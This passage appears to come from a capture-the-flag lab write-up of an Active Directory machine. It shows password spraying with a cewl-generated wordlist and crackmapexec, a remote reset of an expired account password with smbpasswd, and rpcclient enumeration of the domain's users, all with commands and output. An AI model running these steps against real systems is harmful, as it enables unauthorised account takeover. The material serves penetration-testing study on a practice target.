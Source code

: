 ```
cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers -w cewl.txt -d 5
```

* We can now use this generated wordlist in conjunction with crackmapexec to spray passwords on the target

### Crackmapexec

```
crackmapexec smb 10.129.54.112 -u users -p cewl.txt --continue-on-success

SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\bnielson:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.54.112   445    FUSE             [-] fabricorp.local\bhult:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE 
```

* We get a strange hit on 3 different combinations
* When googling this error I came across this article

### status\_password\_must\_change

{% embed url="https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/" %}

* There is a tool to achieve this and it is called smbpasswd

### smbpasswd

```
smbpasswd -r 10.129.54.112 -U tlavel
Old SMB password: Fabricorp01
New SMB password: Password2
Retype new SMB password: Password2
Password changed for user tlavel
```

### Rpcclient

{% embed url="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/" %}

```
rpcclient 10.129.54.112 -U tlavel

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

```
